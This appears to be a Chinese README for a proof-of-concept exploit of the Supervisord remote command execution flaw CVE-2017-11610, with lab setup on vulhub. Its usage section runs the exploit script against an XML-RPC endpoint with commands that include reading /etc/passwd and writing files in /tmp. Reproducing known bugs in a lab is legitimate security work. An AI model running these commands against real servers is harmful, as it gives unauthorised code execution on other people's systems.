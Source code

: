 # CVE-2017-11610 Supervisord 远程命令执行漏洞

影响版本：Supervisor 3.1.2 <= Version <= 3.3.2

已修复版本：Supervisor 3.3.3、Supervisor 3.2.4、Superivsor 3.1.4、Supervisor 3.0.1

最好用vulhub的靶机环境复现

## build test env

条件：已安装docker + docker-compose
```shell
下载 https://github.com/vulhub/vulhub/tree/master/supervisor/CVE-2017-11610 中的文件到本地目录

然后执行下列命令构建环境：

docker-compose build
docker-compose up -d
```
环境启动后，访问http://your-ip:9001即可查看Supervisord的页面。

## usage

poc test
```shell
python3 CVE-2017-11610.py "http://10.0.4.148:9001/RPC2" "pwd"
python CVE-2017-11610.py "http://10.0.4.148:9001/RPC2" "whoami"
python CVE-2017-11610.py "http://10.0.4.148:9001/RPC2" "cat /etc/passwd"
```

write file test
```shell
python CVE-2017-11610.py "http://10.0.4.148:9001/RPC2" "touch /tmp/yl"
python CVE-2017-11610.py "http://10.0.4.148:9001/RPC2" "ls /tmp/"
```
![write_file](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed2/20210622165844.png)

## ref

- https://github.com/phith0n/vulhub/tree/master/supervisor/CVE-2017-11610
- https://www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html
- http://blog.nsfocus.net/supervisord-cve-2017-11610/